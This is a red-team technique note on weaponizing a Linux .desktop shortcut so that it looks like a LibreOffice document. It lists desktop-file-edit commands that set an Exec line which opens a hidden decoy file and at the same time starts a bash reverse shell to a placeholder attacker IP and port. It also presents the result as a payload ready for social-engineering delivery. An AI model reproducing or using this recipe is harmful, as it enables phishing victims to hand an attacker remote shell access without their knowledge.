 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
credits:
  - tokyoneon
---
```

# Manual

First create the file.

```
$ touch malicious_document.odt.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="document.odt" \
--set-key="Version" --set-value="1.0" \
--set-icon="libreoffice-writer" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice --writer \"\$(pwd)/.real_document.odt\"; /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.odt.desktop 2&>1
```

Run `desktop-file-validate` to check if there are any errors to the `.desktop`. However, you'll see false positives related to the special characters that is inserted.  So it is safe to ignore it. Now the payload is ready to deliver for social engineering.

```
$ desktop-file-validate payload.desktop
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Linux/Helpers|Helpers: Desktop Entries]]

### Null Byte

- [Null Byte: Pop a Reverse Shell with a Video File by Exploiting Popular Linux File Managers](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078)

### DMCXBlue

- [DMCXBlue: Attachments - Desktop Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-desktop-files)

### Vicarius

- [Vicarius: Phishing Linux Users with Zero Detection!](https://www.vicarius.io/vsociety/posts/phishing-linux-users-with-zero-detection)